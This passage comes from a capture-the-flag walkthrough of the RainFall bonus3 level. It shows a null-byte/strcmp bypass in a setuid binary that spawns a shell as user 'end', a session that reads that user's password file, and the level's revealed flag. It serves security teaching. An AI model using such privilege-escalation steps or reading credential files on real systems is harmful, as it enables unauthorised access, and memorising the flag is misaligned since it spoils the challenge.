 ### 13. Understanding the Actual Execution Flow
```bash
# What actually happened:
1. ./bonus3 "" executed with 'end' privileges (setuid)
2. fopen("/home/user/end/.pass", "r") succeeded (running as 'end')
3. Password file content read into buffer
4. atoi("") returned 0
5. buffer[0] = 0 set (null byte at buffer start)
6. strcmp(buffer, "") compared truncated buffer with empty string
7. Both appeared empty → comparison succeeded
8. execl("/bin/sh", "-c", NULL) executed shell with 'end' privileges
```

**The Exploitation Was Successful:**
- **setuid execution**: Program ran with 'end' privileges from the start
- **File access**: Could read password file due to running as target user
- **Null byte injection**: Empty string caused buffer[0] = 0
- **String comparison bypass**: Truncated buffer matched empty input
- **Shell execution**: Gained shell access with target user privileges

### 14. Verifying the Final Achievement
```bash
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
$ ls -la
total 4
-rwsr-s---+ 1 end users 26 Sep 23  2015 end
$ ./end
Congratulations graduate!
```

**Final Level Completed!**
- **Password retrieved**: 3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
- **End binary executed**: "Congratulations graduate!"
- **RainFall challenge completed**: Successfully reached the end!

## Educational Analysis - String Manipulation Vulnerabilities

### 15. Understanding Null Byte Injection Attacks

**The Core Vulnerability:**
```c
// Vulnerable pattern (conceptual C code):
char buffer[132];
fread(buffer, 1, 66, file);           // Read password
int index = atoi(argv[1]);            // User-controlled index  
buffer[index] = 0;                    // Null byte injection!
if (strcmp(buffer, argv[1]) == 0) {   // Comparison with modified buffer
    execl("/bin/sh", "-c", NULL);    // Shell execution
}
```

